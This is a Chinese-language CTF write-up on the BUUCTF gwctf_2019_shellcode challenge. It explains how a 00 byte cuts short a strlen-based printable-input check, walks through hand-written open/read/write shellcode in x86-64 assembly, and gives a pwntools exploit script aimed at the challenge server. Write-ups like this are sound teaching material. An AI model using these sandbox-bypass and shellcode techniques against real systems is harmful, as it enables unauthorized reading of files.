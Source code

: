 ```yaml
---
title: BUUCTF_gwctf_2019_shellcode
tags:
 - orw
 - PWN
 - shellcode
 - 00截断
---
```

## 总结：

通过这道题的学习与收获有：

1、strlen函数是可以被00给截断的，而shellcode本身执行的时候并不会因为00截断。

2、第一次手写open,read,write函数的汇编

3、push一个字符串的话，比如push 0x67616c66 （这个是flag），不足八字节，push的时候会自动填充00补全八字节，从而占满一个内存单元。
<!--more-->

## 保护策略：

![image-20220411120824847](/upload/img/image-20220411120824847.png)


发现没开NX，那基本就是shellcode没跑了。

然后发现开启了沙箱，禁用了execve函数，那就考虑写一个orw的shellcode

![image-20220411120832638](/upload/img/image-20220411120832638.png)


## 程序分析：

![image-20220411120838759](/upload/img/image-20220411120838759.png)


由于这个main函数里面存在一个这个汇编指令，因此不能生成伪代码，那就只能读汇编了，好在程序也不复杂。

<img src="/upload/img/image-20220411120845838.png" alt="image-20220411120845838" style="zoom: 50%;" />


逻辑就是执行is_printable之后，去将eax与自身相与，如果eax的值为1，test执行之后的运算结果为1（标志寄存器的值为0,否则反之)如果标志寄存器的值为1，则jz指令进行跳转，跳转到loc_AC1函数，如果触发了该函数则程序直接结束，并不会触发call rax的指令，如果jz不进行跳转，则执行call rax（执行完lea之后，rax的值存放的就是read函数输入进去的内容，因此我们输入的时候直接布置shellcode即可）。

## 大致思路：

因此我们要触发call rax，就需要让loc_AC1函数的返回值为0。

![image-20220411120859759](/upload/img/image-20220411120859759.png)


而这个函数返回值为0的前提就是输入的内容ascii码必须要大于31，并且不能等于127。因为我们构造的shellcode经常会存在不可见字符，因此这里我起初考虑的是将写的shellcode转换成可见字符。

然后转换成可见字符发现，这个shellcode太长了。（下面是转换成可见字符之后的shellcode）

![image-20220411120906357](/upload/img/image-20220411120906357.png)


然后到这里就卡住了，参考了另一篇师傅的博客，发现strlen函数是可以被00截断的（我自己试了一下发现确实如此）

也就是说只要让shellcode中出现00，并且在00之前的是可见字符就ok了，因为strlen获取的长度就到00这里。

![image-20220411120912087](/upload/img/image-20220411120912087.png)


这个循环就不会再往后跑了，因此它不会对00后面的内容进行检查。在这里要说一下，**shellcode本身执行的话并不会被00截断，因为shellcode本身毕竟就是一堆机器码而已，CPU执行机器码的时候，才不管你什么00截断不截断呢，机器码是什么它就执行什么。真正会因为00而截断shellcode的其实是一些函数,比如strcpy这个函数。**

因此我们只需要让shellcode中尽早的出现00机器码即可

然后就是开始手动编写shellcode了。

## 手写orw-shellcode

首先我们要执行的如下的代码：

```python
open(flag_addr,0)
read(3,addr,0x50)#第一个参数是3，因为一个进程有默认的文件描述符0,1,2。当再打开新的文件之后，文件描述符就会以此类推的分配，因此上面open新打开的flag文件的文件描述符就是3
#至于这个addr，把读出来的flag放到哪，一会再说
write(1,addr,0x50)
```

接下来，就开始用汇编来实现上面的内容。

```assembly
open(flag_addr,0)
push 0x67616c66
push rsp
pop rdi
#上面这两步就是在传open的第一个参数，这个参数要是一个地址，这个地址要指向字符串'flag'
#执行完push 0x67616c66的时候，栈顶的内容就是字符串flag，而栈顶指针rsp就指向了这个flag，此时执行push rsp将指向flag的地址（也就是rsp）压栈，此时栈顶的内容就是那个指向flag的地址，然后再执行pop rdi
#将栈顶的这个内容弹给rdi，此时open的第一个参数就成为了指向flag的地址
push 0#这个push 0这里就会出现机器码00，用来截断strlen函数
pop rsi
push 2
pop rax
syscall

read(3,addr,0x50)
push 3
pop rdi
push rsp 
pop rsi
#上面这两步在完成read函数的第二个参数传参，此时压入栈的rsp，我并不知道这个地址是什么，只知道把这个地址给rsi的话，flag就会被写到这个地址里面，至于这个地址是什么，真的不重要，重要的是要保证接下来write的第二个参数也是这个地址即可，而我们要做的就是保证接下来的每一个push都要对应一个pop，这样栈顶始终就是给当初rsi的那个地址了。
push 0x50
pop rdx
push 0
pop rax
syscall

write(1,addr,0x50)
push 1
pop rdi
push rsp
pop rsi
#这个地方的push rsp pop rsi原理同上
push 0x50
pop rdx
push 1
pop rax
syscall

```

## EXP：

最后脚本的话有一点要注意一下。

![image-20220411120920984](/upload/img/image-20220411120920984.png)


这个地方有一个指令，它将把我们输入的payload的最后一字节改成0。（如下图）

![image-20220411120927129](/upload/img/image-20220411120927129.png)


这样的后果就是将我们的shellcode最后一个syscall给破坏了，因此我们在syscall后面随便再写个指令，syscall就是完整的了。

最后exp：

```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')
p=remote('node4.buuoj.cn',28435)
shellcode=asm('''
push 0x67616c66
push rsp
pop rdi
push 0
pop rsi
push 2
pop rax
syscall

push 3
pop rdi
push rsp
pop rsi
push 0x50
pop rdx
push 0
pop rax
syscall

push 1
pop rdi
push rsp
pop rsi
push 0x50
pop rdx
push 1
pop rax
syscall

nop
''')
print(hex(len(shellcode)))
p.send(shellcode)
p.interactive()

```


![image-20220411120933954](/upload/img/image-20220411120933954.png)

